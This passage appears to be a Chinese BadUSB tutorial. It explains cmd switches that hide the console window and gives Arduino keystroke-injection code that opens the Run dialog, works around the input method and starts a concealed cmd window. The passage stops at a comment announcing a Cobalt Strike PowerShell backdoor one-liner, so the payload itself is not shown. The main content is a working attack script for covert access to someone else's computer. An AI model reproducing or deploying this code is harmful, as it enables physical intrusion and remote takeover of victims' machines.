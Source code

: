 cmd /q /d /f:off /v:on /k MODE con: cols=15 lines=1// 有回显

cmd /T:01 /K "@echo off && mode con:COLS=15 LINES=1// 无回显

/q 关闭回显  
/d 禁止从注册表执行 AutoRun 命令  
/F:OFF 禁用文件和目录名完成字符  
/V:ON 使用 ! 作为分隔符启用延迟的环境变量  
MODE con: cols=15 lines=1 调整行数和列数

**对应按键表**  

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3FynFNO6QQSibddW7I61FsC7JL9rIicej1LLjoDicVYRfUZ0ORK1lM7TYXGmA/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3Fyn0do6mRZEau2JhVFa0xWmaiaicMZ0WCGuLfDRiaYVpbe9wOYvCjqibvseLw/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3Fyn2LpEtBpGSInUgoU5j744pdG99l2KIkPvIvjHjib78DwpMlGekxUCYCg/640?wx_fmt=png)

现在我们基本具备了一个可以编写简单 badusb 程序的基础了

_**_**No.4**_**_

_**上线实现**_

刚开始的 usb 的初始代码是这样的，我们这里编写的主要函数是 setup 下面的，可以不用管

```
void setup() {
  // 安装时运行的代码
}

void loop() {
  // 重复执行的代码
}
```

```
# include <Keyboard.h>

void setup() {
    // 安装时运行的代码
    Keyboard.begin(); //开始键盘通讯
    delay(3000);//延迟

    // 打开 运行 窗口
    // 按住win键 + r
    Keyboard.press(KEY_LEFT_GUI);
    Keyboard.press('r');
    delay(100);
    // 松开win键 + r
    Keyboard.release(KEY_LEFT_GUI);
    Keyboard.release('r');
    delay(100);

    // 开大写输小写绕过输入法
    Keyboard.press(KEY_CAPS_LOCK);
    Keyboard.release(KEY_CAPS_LOCK);
    delay(100);

    // 执行命令-打开cmd
    Keyboard.println("CMD  /q /d /f:off /v:on /k MODE con: cols=20 lines=1");
    delay(100); 
    Keyboard.press(KEY_RETURN);
    delay(100);
    Keyboard.release(KEY_RETURN);
    delay(100);

    // 执行命令-cs上线powershell一句话马
```